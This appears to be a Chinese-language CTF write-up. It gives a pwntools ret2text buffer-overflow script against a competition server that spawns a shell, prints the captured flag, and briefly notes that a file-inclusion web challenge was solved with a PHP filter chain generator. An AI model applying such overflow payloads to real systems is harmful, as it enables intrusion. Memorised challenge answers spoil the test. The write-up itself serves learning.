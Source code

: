 # Pwn

## Easy_Pwn | FINISHED

ret2text,0xGame做过，直接找/bin/sh的地址就行

​![](img/启航杯CTF/clip_image014-20250126093903-85qjn13.jpg)​

```python

from pwn import*
addr = "challenge.qihangcup.cn:34879".split(":")
io=remote(addr[0],addr[1])

payload= b'A'*80 + b'B'*8 + p64(0x4011CA) 
io.sendline(payload)
io.interactive()

# QHCTF{1f5cf23b-8f48-4b65-bedf-23db65262678}

```

# web

## eazy-include | FINISHED

观察是文件包含，尝试双写绕过等方法后均无效

使用脚本生成payload如下,学会用新工具php_fliter_chain_generator.py

​![](img/启航杯CTF/clip_image016-20250126093903-xenlqrf.jpg)​

```php

```